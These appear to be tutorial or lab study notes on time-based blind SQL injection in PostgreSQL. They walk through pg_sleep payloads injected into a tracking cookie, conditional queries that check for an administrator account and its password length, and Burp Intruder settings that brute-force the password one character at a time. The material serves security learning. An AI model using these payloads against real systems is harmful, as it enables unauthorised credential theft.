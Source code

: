 # Section 15: Time-Based Blind SQL injection

## Discovering Time-Based Blind SQLi

When there is no visible change in the web page for truthy or falsy sql injection statement, there is still a way to discover if an SQL statement
is executed by running a sleep function and checking the reponse time of the request

**Example**: Inject sleep in a request cookie

In a PostgreSQL DB engine:

```
Tracking Id: 0uHDsxyyjWVUzvKC'||pg_sleep(10)--
```

can test multiple sleep seconds to verify

---

## Extracting Data From the Database Using a Time-Based Blind SQLi

Confirm true statements with **conditional time delays**:

```
SELECT
  CASE
    WHEN (2=2) THEN
      pg_sleep(10)
    ELSE
      pg_sleep(0)
  END
```

Should take 10 seconds to load:

```
Tracking Id: 0uHDsxyyjWVUzvKC'||(SELECT CASE WHEN (2=2) THEN pg_sleep(10) ELSE pg_sleep(0) END)'--
```

Should load quickly because the condition is false:

```
Tracking Id: 0uHDsxyyjWVUzvKC'||(SELECT CASE WHEN (2=1) THEN pg_sleep(10) ELSE pg_sleep(0) END)'--
```

### Extracting Data

If we have a table that is called users, will sleep for 10 seconds

```
SELECT
  CASE
    WHEN (2=2) THEN
      pg_sleep(10)
    ELSE
      pg_sleep(0)
  END
FROM users
```



```
Tracking Id: 0uHDsxyyjWVUzvKC'||(SELECT CASE WHEN (2=2) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users)'--
```

Check if an administrator user exists:

```
SELECT
  CASE
    WHEN (username='administrator') THEN
      pg_sleep(10)
    ELSE
      pg_sleep(0)
  END
FROM users
```

```
Tracking Id: 0uHDsxyyjWVUzvKC'||(SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users)'--
```

Check password length of administrator:

```
SELECT
  CASE
    WHEN (username='administrator' AND LENGTH (password)>1) THEN
      pg_sleep(10)
    ELSE
      pg_sleep(0)
  END
FROM users
```

```
Tracking Id: 0uHDsxyyjWVUzvKC'||(SELECT CASE WHEN (username='administrator' AND LENGTH(password)>1) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users)'--
```

```
Tracking Id: 0uHDsxyyjWVUzvKC'||(SELECT CASE WHEN (username='administrator' AND LENGTH(password)>=20) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users)'--
```



---

## Getting the Admin Password Using a Time-Based Blind SQLi

similar approach with blind SQL

```
SELECT
  CASE
    WHEN (username='administrator' AND SUBSTRING (password,1,1)='a' THEN
      pg_sleep(10)
    ELSE
      pg_sleep(0)
  END
FROM users
```

```
Tracking Id: 0uHDsxyyjWVUzvKC'||(SELECT CASE WHEN (username='administrator' AND SUBSTRING(password,1,1)='a') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users)'--
```

Send it to the Intruder (allow to specify certain locations within the request, where we can automatically change and send to the target web application)

Modify, location and letter replace with `§`

Positions:
  - Attack type: Cluster bomb (because 2 parts are being manipulated)
    
Payloads
  - Payload set 1: Numbers (1 to 20, step 1)
  - Payload set 2: Brute force (Character set: alphanumberic, 1 min and 1 max, step 1)

Resource Pool (needed for the time-based attack only)
  - 1 at a time1, instead of the default
    - because we want to monitor the response time
  - create new resource pool, Max concurrent requests: 1 


Add new column **Response Received** and look for over 10000 (ms)

---




